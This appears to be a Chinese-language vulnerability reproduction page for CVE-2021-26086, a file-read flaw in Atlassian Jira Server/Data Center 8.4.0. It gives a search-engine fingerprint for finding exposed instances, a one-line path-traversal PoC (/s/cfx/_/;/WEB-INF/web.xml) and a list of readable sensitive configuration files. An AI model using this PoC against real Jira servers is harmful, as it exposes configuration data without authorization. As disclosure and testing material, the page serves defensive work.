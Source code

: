 # Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

<a-checkbox checked>Atlassian Jira Server/Data Center 8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634610793448-229e5b0d-d6d4-4de1-824a-b9d3a3446651-20220313163314705.png)

验证POC

```php
/s/cfx/_/;/WEB-INF/web.xml
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634610826119-05c0b0fe-2266-46bb-8b2a-9997824e6724-20220313163314907.png)

可读取敏感配置文件

```php
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

